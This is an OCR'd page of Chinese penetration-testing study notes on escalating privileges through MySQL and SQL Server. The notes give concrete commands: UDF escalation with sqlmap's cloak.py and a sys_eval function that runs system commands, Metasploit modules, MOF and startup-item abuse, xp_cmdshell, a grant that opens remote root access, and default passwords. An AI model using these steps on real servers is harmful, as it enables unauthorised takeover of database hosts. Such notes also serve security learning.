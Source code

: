 ~~~shell
mysql root/root
#前提：需要数据库密码（sql注入获取）
可以用蚁剑等连接数据库
开启外联：grant all privilienge
大马工具
# 一、UDF提权（使用者自己添加的mysql函数就称为UDF，user defined function）
原理：通过添加新函数，执行系统命令，引入udf.dll，引入
1、手动
	mysql权限：
	secure-file-priv=“”
	大于5.1版本：udf提权时需要将udf.dll导出到mysql安装目录\lib\plugin\目录下
过程：	
	1）sqlmap生成dll
			到cloak.py路径下执行命令
			（a）python cloak.py -d -i /usr/share/sqlmap/data/udf/mysql/windows/64/lib_mysqludf_sys.dll_()
			【or D:\ALLin\zhuomian\攻防基础\ONE-FOX集成工具箱\ONE-FOX集成工具箱_V3.0魔改版_by狐狸\gui_scan\sqlmap\extra\cloak】
			（b）cloka.py 文件路径 : /usr/share/sqlmap/extra/cloak
	大于5.1版本：udf提权时需要将udf.dll导出到mysql安装目录\lib\plugin\目录下
	2）导入文件xxx.dll
	3）导入abc.dll创建sys_eval()函数
	create function sys_eval returns string soname 'abc.dll'
	4）使用sys_eval()执行命令
	select sys_eval('net user')
or	
  	1）使用MSF模块
	  exploit/multi/mysql/mysql_udf_payload
	  2）再使用工具连接数据库，执行create function sys_eval returns string soname "WGqASYxX.dll";
	  select sys_eval("whoami");
// 做完之后要删除语句、函数，重启服务才能再提权
2、MDUT工具
 1）右键新增-->添加
报错就去github里面下载
# 二、MOF提权（managed object format）
利用了c:/windows/system32/wbem/mof/目录下的 nullevt.mof 文件，每分钟都会在一个特定的时间去执行一次的特性，来写入我们的cmd命令使其被带入执行。使用MOF提权的前提是当前root账户可以复制文件到%SystemRoot%\System32\Wbem\MOF目录下。
失败原因：关键目录写不进去，需要等待被动去执行。
1、利用启动项提权（一启动就会执行文件）
search mysql_start_up
2、工具：msf模块
监听：use exploit/multi/handler
# 三、启动项提权（一启动就会执行文件）
1、工具：msf模块
search mysql_start_up
2、sql_server提权（使用：xp_cmdshell，sq_oacreate提取）
# Sql server 提权 sa/123456
	提权使用的函数：xp_cmdshell()
# 链接：https://blog.csdn.net/weixin_40412037/article/details/112858836


##### 补充语句 #####
删除函数：
	delete from mysql.func where name='sys_eval'
开启外连：
	GRANT ALL PRIVILEGES ON *.* TO 'root' @'%' IDENTIFIED BY 'root' WITH GRANT OPTION;
	GRANT OPTION;

~~~

